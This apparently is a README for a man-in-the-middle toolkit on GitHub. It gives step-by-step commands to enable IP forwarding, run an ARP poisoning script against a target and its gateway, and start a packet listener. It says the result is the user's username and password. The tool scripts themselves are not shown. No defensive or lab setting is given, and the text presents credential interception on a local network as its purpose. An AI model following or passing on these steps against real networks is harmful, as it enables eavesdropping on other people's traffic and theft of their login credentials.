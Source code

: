== Man in the middle ==

The first step of the Man in the Middle Attack is IP Forwarding. 
Therefore, the code shown below should be run before everything. 

==> echo 1 > /proc/sys/net/ipv4/ip_forward 

To use the arp_poison.py tool: 

Pyhton3 arp_poison.py -t {target+IP} -g {Modem+IP}


Before using the packet_listener, scapy_http package should be downloaded. To do this, type the following script into the terminal: 

==> pip3 install scapy_http 

After that, we need to send packets by using arp_poison.py; 

==>python3 arp_poison.py

then we can listen to the network by packet_listener.py

==> python3 packet_listener.py

Then, you can see the username and password of the user.
